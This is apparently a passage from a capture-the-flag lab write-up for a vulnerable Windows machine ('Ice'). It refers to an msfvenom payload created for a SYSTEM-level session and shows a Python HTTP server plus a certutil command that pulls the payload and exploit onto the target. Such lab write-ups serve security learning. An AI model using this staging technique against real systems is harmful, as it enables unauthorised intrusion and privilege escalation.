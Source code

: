 ![CVE Details|540](images/thm-ice/csv-details-github.png)

Now we need to create a payload so that we run the payload using the exploit we are able to get an session with system privileges.

![Creating exploit using Msfvenom](images/thm-ice/msfvenom-payload-creation.png)

Now that we have our payload and exploit lets upload then on to the target machine. For this on your machine we can setup an Python HTTP Server and use certutil on Windows to download the files from the server

```
python3 -m http.server 1234

certutil -urlcache -f http://<server-ip-address>:<port>/<filename> <output-filename>
```

![Downloading File 1](images/thm-ice/downloading-file-1.png)

![Downloading File 2](images/thm-ice/downloading-file-2.png)
